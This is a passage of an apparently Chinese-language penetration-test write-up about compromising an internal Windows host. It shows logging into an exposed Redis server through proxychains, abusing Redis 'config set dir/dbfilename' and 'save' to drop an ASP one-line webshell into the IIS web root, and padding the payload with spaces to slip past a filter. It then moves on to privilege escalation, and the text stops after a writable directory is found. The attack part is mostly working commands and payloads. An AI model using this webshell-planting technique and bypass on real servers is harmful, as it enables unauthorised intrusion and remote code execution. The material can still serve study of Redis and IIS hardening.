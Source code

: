 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LIPUUGbhpnqu0vkpaPX1K7CcU2U3SMPz8R9VicOkicicoOZxUUmTyDz0n3Do6IYnwEsaeQG9SWHxcuiaw/640?wx_fmt=png)

重新登陆 redis：

```
proxychains redis-cli -h 192.168.59.4 -p 6379 -a 123456789qq
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LIPUUGbhpnqu0vkpaPX1K7CngfXl65uSXwsIFFevbT4BJOeKqzPWQgo7jO7NEiau0fL5j0EspYLlVA/640?wx_fmt=png)  

登陆成功！但是现在要想拿到权限首先我们不知道网站路径（写不了一句话 ），但是知道当前网站使用的是 IIS，那么 IIS 默认目录是：

```
C:\Inetpub\wwwroot
```

设想会不会是这个目录呢？随即写了一个 asp 的 shell 到 IIS 默认目录：  

```
192.168.59.4:6379> config set dir C:/inetpub/wwwroot/
192.168.59.4:6379> config set dbfilename 1.asp
192.168.59.4:6379> set x '<%execute(request("x"))%>'  //注意这里要用单引号
192.168.59.4:6379> save
```

发现写入不了，随后设置了读写权限 ：

```
config set slave-read-only on
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LIPUUGbhpnqu0vkpaPX1K7CXoeH5QicAvaxY7xhMicmm1WP6I0fb1TvNWEic4Iz7CKwZ40RlfCWdhhyg/640?wx_fmt=png)  

再来写一遍 webshell：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LIPUUGbhpnqu0vkpaPX1K7Ck4JlndticFZDlzvbyo1qrqIF8j1q0ibkjTwyU5oh2sFowobQEeh3ficYQ/640?wx_fmt=png)

发现是 404，写 asp 是 500，应该是什么规则拦截了。

随后 bypass 测试，只能上传 asp，而且还可以通过这样绕过：（单引号中间要带空格）

```
set x '    <%execute(request("x"))%>    '
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LIPUUGbhpnqu0vkpaPX1K7C0cwFUibHYa6VxHw0AtK8JGUKepkZIA188apO9kib5wZAPgFVjr1UpibHw/640?wx_fmt=png)  

**内网横向移动 - 坏土豆提权**

通过发现当前机器是不出网的，而且权限还很小：  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LIPUUGbhpnqu0vkpaPX1K7CB4byYicvsyTjHlwEiaib92ujQDOIxVRHukYkY91gdknkr7hqiaShA6gxpQ/640?wx_fmt=png)  
发现当前机器上权限太小任何文件都上传不了：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LIPUUGbhpnqu0vkpaPX1K7COicZR5OIBXjsBiaddZPbHyEGCI78BVsibDyUBdt3Dy57DkMD6bEk8FeqQ/640?wx_fmt=png)

后通过找到了一个可读可写目录：

```
C:\ProgramData\VMware\logs\
```

